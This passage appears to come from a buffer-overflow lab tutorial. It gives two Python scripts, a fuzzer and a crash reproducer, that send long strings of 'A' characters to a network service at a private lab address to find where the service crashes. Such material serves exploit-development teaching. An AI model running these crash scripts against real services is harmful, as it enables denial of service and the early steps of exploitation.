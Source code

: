 ## fuzzer.py

Once you’re successfully able to connect to the service, can perform authentication, and quit gracefully, it’s time to fuzz.

```
import sys,socket 
address = '192.168.69.101'
port = 9999
buffer = ['\x41']
counter = 100
while len(buffer)<= 10:
	buffer.append('\x41'*counter)
	counter=counter+100
try:
	for string in buffer:	
		print '[+] Sending %s bytes...' % len(string)
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		connect=s.connect((address,port))
		s.recv(1024)
		s.send(string + '\r\n')
		print '[!] Done'
except:
 	print '[!] Unable to connect to the application. You may have crashed it.'
 	sys.exit(0)
finally:
	s.close()

```

## crash.py

To find the [more] approximate number of bytes send at which the program crashed, use this script. 

```
#!/usr/bin/python
import socket
import sys
from time import sleep

buffer = 'A' * 700		#change 600 accordingly

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.69.101',9999))
  s.recv(1024)

  print '[*] Sending buffer...'
  s.send(buffer + '\r\n')
  s.close()
  print '[!] Done.'

except:
  print '[!] Could not connect to target, exiting.'
  sys.exit()

```



